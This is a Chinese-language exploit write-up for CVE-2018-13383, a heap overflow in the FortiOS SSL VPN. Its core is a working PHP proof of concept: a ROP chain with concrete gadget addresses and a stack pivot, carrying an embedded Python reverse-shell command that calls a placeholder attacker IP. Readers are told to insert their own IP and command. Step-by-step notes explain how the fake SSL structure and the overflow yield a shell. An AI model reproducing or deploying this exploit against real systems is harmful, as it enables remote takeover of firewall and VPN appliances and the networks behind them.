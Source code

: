 （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞
=================================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS
6.2.0之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

三、复现过程
------------

这是WebVPN功能的漏洞。在解析HTML中的JavaScript时，它会尝试使用以下代码将内容复制到缓冲区中：

    memcpy(buffer, js_buf, js_buf_len);

缓冲区大小固定为`0x2000`，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出Null字节，这在我们的利用中很有用。为触发此溢出，我们需要将exploit放到HTTP服务器上，然后以普通用户权限登录SSL
VPN代理访问我们的exploit为普通用户。

> 这里我们用PHP编写的PoC放在HTTP服务器上:
>
> //请自行修改里面的ip以及所需要的执行的命令

    <?php
    function p64($address) {
        $low = $address & 0xffffffff;
        $high = $address >> 32 & 0xffffffff;
        return pack("II", $low, $high);
    }
    $junk = 0x4141414141414141;
    $nop_func = 0x32FC078;

    $gadget  = p64($junk);
    $gadget .= p64($nop_func - 0x60);
    $gadget .= p64($junk);
    $gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;
    $gadget .= p64($junk);
    $gadget .= p64($junk);
    $gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;
    $gadget .= p64(0x1bed1f6); // pop rax ; ret ;
    $gadget .= p64(0x58);
    $gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;
    $gadget .= p64(0x1366639); // call system ;
    $gadget .= "python -c 'import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);' xx.xxx.xx.xx /bin/sh;";

    $p  = str_repeat('AAAAAAAA', 1024+512-4); // offset
    $p .= $gadget;
    $p .= str_repeat('A', 0x1000 - strlen($gadget));
    $p .= $gadget;
    ?>
    <a href="javascript:void(0);<?=$p;?>">xxx</a>

这个PoC可以分为三个部分。

-   1.虚假的SSL structure

`SSL structure`和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将`method`设置为一个包含空函数指针的位置。此时的参数是
`SSL structure`本身`s`。但是，`method`前面只有8个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向shell来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到ROP小片段。我们发现一个有用的堆栈枢轴:

    push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;

因此，我们将`handshake_func`设置为这个小片段，将`rsp`移动到`SSL structure`中，进行下一步的ROP攻击。

-   2.ROP链

这里的ROP链很简单。我们稍微向前移动`rdi`，以便有足够的空间执行反向shell命令。

-   3.溢出的字符串

最后，我们连接溢出填充并加以利用。一旦我们溢出了SSL
structure，就会得到一个shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要1\~2分钟，就可以获得一个反向shell。

